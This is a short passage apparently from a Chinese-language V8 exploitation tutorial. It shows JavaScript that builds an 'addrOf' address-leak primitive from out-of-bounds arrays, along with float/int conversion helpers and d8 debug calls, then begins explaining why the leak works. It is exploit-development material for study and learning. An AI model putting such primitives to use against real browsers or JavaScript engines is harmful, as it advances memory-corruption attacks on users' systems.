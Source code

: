```js
%DebugPrint(oobObjArr);
let objIndex = searchObjArrIndex(dblAddr, corruptedArr, dblAddr + 0x100);
console.log("oobObjAddr: " + indexToAddr(objIndex-2).toString(16));
//let input2 = readline();




var dblArr = new Float64Array(view);
var intView = new Uint32Array(view);
function ftoi32(f) {
    dblArr[0] = f;
    return [intView[0], intView[1]];
  }
  
  // Convert int array to float
  function i32tof(i1, i2) {
    intView[0] = i1;
    intView[1] = i2;
    return dblArr[0];
  }

function addrOf(obj, dblOffset) {
  oobObjArr[0] = obj;
  var addrDbl = oobDblArr[dblOffset];
  return ftoi32(addrDbl)[0];
}


function func() {
    console.log("test");
}

console.log("--------------------------------------------");
%DebugPrint(func);

var funcAddr = addrOf(func, (objIndex - oobDblIndex) >> 1);
console.log(funcAddr.toString(16));

```


那么看一下为什么可以输出地址

```js

function addrOf(obj, dblOffset) {
  oobObjArr[0] = obj;
  var addrDbl = oobDblArr[dblOffset];
  return ftoi32(addrDbl)[0];
}

var funcAddr = addrOf(func, (objIndex - oobDblIndex) >> 1);
```
